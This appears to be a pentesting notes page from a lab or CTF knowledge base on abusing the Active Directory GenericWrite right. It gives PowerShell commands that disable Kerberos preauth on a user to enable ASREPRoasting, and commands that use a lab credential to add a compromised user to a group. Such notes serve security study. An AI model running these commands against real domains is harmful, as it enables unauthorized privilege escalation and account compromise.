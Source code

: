 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# GenericWrite

## General

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Setting PreAuth (ASREPRoast)

If we own an account which has `GenericWrite` rights over another account, we can make the latter [ASREPRoastable](../attacks/asreproasting.md).

```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```

An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

### Over a Group

#### Adding Group Member

<figure><img src="../../../../.gitbook/assets/genericwrite_group_bh.png" alt=""><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite" %}
{% endtab %}
{% endtabs %}
